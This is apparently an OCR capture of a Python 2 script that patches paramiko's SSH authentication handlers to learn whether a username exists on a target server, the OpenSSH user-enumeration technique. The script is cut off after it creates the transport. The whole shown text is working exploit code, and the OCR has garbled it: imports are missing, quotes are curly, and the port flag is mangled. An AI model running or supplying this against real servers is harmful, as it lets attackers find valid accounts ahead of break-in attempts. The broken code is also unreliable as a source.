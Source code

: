 ```

import socket

import sys

class InvalidUsername(Exception):

pass

def add_boolean(*args, **kwargs):

pass

old_service_accept = paramiko.auth_handler.AuthHandler._handler_table[

paramiko.common.MSG_SERVICE_ACCEPT]

def service_accept(*args, **kwargs):

paramiko.message.Message.add_boolean = add_boolean

return old_service_accept(*args, **kwargs)

def userauth_failure(*args, **kwargs):

raise InvalidUsername()

paramiko.auth_handler.AuthHandler._handler_table.update({

paramiko.common.MSG_SERVICE_ACCEPT: service_accept,

paramiko.common.MSG_USERAUTH_FAILURE: userauth_failure

})

logging.getLogger(‘paramiko.transport’).addHandler(logging.NullHandler())

arg_parser = argparse.ArgumentParser()

arg_parser.add_argument(‘hostname’, type=str)

arg_parser.add_argument(’–port’, type=int, default=22)

arg_parser.add_argument(‘username’, type=str)

args = arg_parser.parse_args()

sock = socket.socket()

try:

sock.connect((args.hostname, args.port))

except socket.error:

print ‘[-] Failed to connect’

sys.exit(1)

transport = paramiko.transport.Transport(sock)

try:

```